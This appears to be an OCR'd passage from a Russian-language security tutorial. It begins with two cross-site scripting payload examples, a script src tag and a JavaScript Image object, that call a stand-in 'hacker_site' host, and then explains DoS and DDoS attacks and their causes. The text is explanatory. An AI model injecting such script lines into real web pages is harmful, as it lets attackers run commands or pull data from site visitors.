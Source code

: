 SCRIPT SRC:

\<script src="http://hacker\_site/?command"\>

Javascript объект Image:

\<script\>

           var foo = new Image();

           foo.src = "http://hacker\_site/?command";

\</script\>

 

**DoS-attack** (Denial of Service) — атака на вычислительную систему с целью
довести её до отказа, то есть создание таких условий, при которых легитимные
(правомерные) пользователи системы не могут получить доступ к предоставляемым
системой ресурсам (серверам), либо этот доступ затруднён. Отказ «вражеской»
системы может быть и шагом к овладению системой (если во внештатной ситуации ПО
выдаёт какую-либо критическую информацию — например, версию, часть программного
кода и т. д.). Но чаще это мера экономического давления: простои службы,
приносящей доход, счета от провайдера и меры по уходу от атаки ощутимо бьют
«цель» по карману.

Если атака выполняется одновременно с большого числа компьютеров, говорят
о **DDoS-атаке** (Distributed Denial of Service). В некоторых случаях к
фактической DDoS-атаке приводит непреднамеренное действие, например, размещение
на популярном интернет-ресурсе ссылки на сайт, размещённый на не очень
производительном сервере. Большой наплыв пользователей приводит к превышению
допустимой нагрузки на сервер и, следовательно, отказу в обслуживании части из
них.

Существуют различные причины, из-за которых может возникнуть DoS-условие:

**Ошибка** в программном коде, приводящая к обращению к неиспользуемому
фрагменту адресного пространства, выполнению недопустимой инструкции или другой
необрабатываемой исключительной ситуации, когда происходит аварийное завершение
программы-сервера — серверной программы. Классическим примером является
обращение по нулевому (*null*) адресу.

**Недостаточная проверка данных пользователя**, приводящая к бесконечному либо
длительному циклу или повышенному длительному потреблению процессорных ресурсов
(вплоть до исчерпания процессорных ресурсов) либо выделению большого объёма
оперативной памяти (вплоть до исчерпания доступной памяти).

**Flood**— атака, связанная с большим количеством обычно бессмысленных или
сформированных в неправильном формате запросов к компьютерной системе или
сетевому оборудованию, имеющая своей целью или приведшая к отказу в работе
системы из-за исчерпания системных ресурсов — процессора, памяти или каналов
связи.

**Атака второго рода** — атака, которая стремится вызвать ложное
срабатывание системы защиты и таким образом привести к недоступности ресурса.

Если атака (обычно флуд) производится одновременно с большого
количества IP-адресов — с нескольких рассредоточенных в сети компьютеров — то в
этом случае она называется распределённой атакой на отказ в обслуживании (DDoS).
